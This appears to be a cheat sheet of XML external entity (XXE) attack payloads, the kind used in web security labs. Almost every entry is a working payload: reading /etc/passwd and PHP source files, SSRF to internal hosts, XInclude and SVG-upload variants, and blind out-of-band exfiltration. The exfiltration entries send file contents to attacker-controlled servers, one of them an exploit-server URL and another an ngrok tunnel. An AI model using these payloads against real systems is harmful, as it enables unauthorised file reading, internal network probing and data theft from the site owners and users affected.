 <h3> Payloads For XXE Vulnerability </h3>

XXE to read local files:

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

XXE to read php files:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=db.php"> ]><pwn><id>&xxe;</id></pwn>
```

XXE to SSRF

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

XXE via XInclude attacks

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

XXE via file upload

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY fetch SYSTEM "file:///etc/hostname">]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="13" x="28" y="28">&fetch;</text>
</svg>
```

XXE parameter entities

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Blind XXE to exfiltrate data out of bound

Content of exploit.dtd:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Content of xxe payload:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a4b005404099ed681bfedb501c50098.exploit-server.net/exploit"> %xxe;]>
```

```P.S This technique might not work with some file contents, including the newline characters contained in the /etc/passwd file. This is because some XML parsers fetch the URL in the external entity definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as /etc/hostname can be targeted instead. ```

Out-of-band XML external entity (OOB XXE)

```xml
### File name
<!ENTITY % file SYSTEM "file:///flagbugbase1.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://4.tcp.eu.ngrok.io:19312/%file;'>">
%eval;
%exfiltrate;

### Request
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://4.tcp.eu.ngrok.io:19312/pwn.dtd"> %xxe;]>
```
